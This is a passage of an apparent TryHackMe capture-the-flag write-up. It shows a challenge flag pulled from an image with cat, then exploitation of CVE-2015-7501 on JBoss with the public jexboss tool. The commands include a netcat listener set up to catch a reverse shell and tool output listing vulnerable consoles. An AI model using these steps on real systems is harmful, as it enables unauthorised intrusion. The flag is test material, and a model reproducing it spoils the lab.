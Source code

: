 - OK, now we have a little map. Per hint in the challenge, first flag should be somewhere in the blogs section. Since there was nothing in source code, I downloaded both pictures and run them through `steghide` but got nothing.
  But there is one more option that will give us the flag and you use it all the time.

  ```
  cat frost.jpg
  [SNIP!]
  THM{Tony_Sure_Loves_Frosted_Flakes}
  ```
  
- Yep, it's `cat`, you can also use `strings`. I also found credentials for admin portal and logged in, but honestly there was nothing much to be found. Let's move to exploitation.

---

## ⚙️ Shell Access

- Task tells us to research `CVE-2015-7501` and find a way to obtain shell, so I did that and found this really cool tool that will give you a reverse shell. You can find it [here](https://github.com/joaomatosf/jexboss.git).

- Tool is pretty easy to use, clone the repo and run it with Python, also install dependencies if needed. Tool has few options and first one didn't work for me at all, then I tried second one with `netcat` and got a reverse shell!

  ```
  git clone https://github.com/joaomatosf/jexboss.git
  cd jexboss
  python jexboss.py -host http://target_host:8080

  nc -lvnp 4444

  python3 jexboss.py -host http://10.10.194.49:8080
   * --- JexBoss: Jboss verify and EXploitation Tool  --- *
   |  * And others Java Deserialization Vulnerabilities * | 
   |                                                      |
   | @author:  João Filho Matos Figueiredo                |
   | @contact: joaomatosf@gmail.com                       |
   |                                                      |
   | @update: https://github.com/joaomatosf/jexboss       |
   #______________________________________________________#
  
   @version: 1.2.4
  
   * Checking for updates in: http://joaomatosf.com/rnp/releases.txt **
  
  
   ** Checking Host: http://10.10.194.49:8080 **
  
   [*] Checking jmx-console:                 
    [ VULNERABLE ]
   [*] Checking web-console:                 
    [ OK ]
   [*] Checking JMXInvokerServlet:           
    [ VULNERABLE ]
   [*] Checking admin-console:               
    [ EXPOSED ]
   [*] Checking Application Deserialization: 
    [ OK ]
   [*] Checking Servlet Deserialization:     
    [ OK ]
   [*] Checking Jenkins:                     
    [ OK ]
   [*] Checking Struts2:                     
    [ OK ]
  ```